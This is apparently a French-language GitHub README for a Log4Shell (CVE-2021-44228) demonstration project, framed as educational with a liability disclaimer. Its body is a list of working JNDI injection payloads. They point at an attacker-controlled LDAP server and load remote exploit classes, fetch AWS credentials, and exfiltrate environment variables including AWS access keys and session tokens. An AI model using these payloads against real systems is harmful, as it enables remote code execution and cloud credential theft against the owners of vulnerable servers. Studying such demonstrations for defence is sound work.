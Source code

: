 # Log4Shell

Ce projet est une démonstration du fonctionnement de la faille de sécurité log4shell.

Cette faille est décrite dans la CVE-2021-44228.

Le projet est destiné à un usage pédagogique uniquement.
Il ne doit être utilisé que sur votre propre système et uniquement dans un but expérimental.

**Toute exécution est effectuée à vos risques et périls.**
**L'auteur décline toute responsabilité en cas d'incident en conséquence de l'exécution du projet.**


## Exemple de commandes
    
    ldap_server=i-09cd4f41e5a2b1d66.eu-west-3.compute.internal:1389
    hello '${jndi:ldap://'"${ldap_server}"'/run=log4shell.Exploit}'
    hello '${jndi:ldap://'"${ldap_server}"'/run=log4shell.ExploitP,msg=my friend}'
    hello '${jndi:ldap://'"${ldap_server}"'/run=log4shell.aws.FetchCreds}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=PATH:${env:USER}}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=PATH:${env:PATH}}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=os=${java:os}}'
    hello '${jndi:ldap://'"${ldap_server}"'/log=aws_credentials,AWS_ACCESS_KEY_ID=${env:AWS_ACCESS_KEY_ID},AWS_SECRET_ACCESS_KEY=${env:AWS_SECRET_ACCESS_ID},AWS_SESSION_TOKEN=${env:AWS_SESSION_TOKEN}}'
    
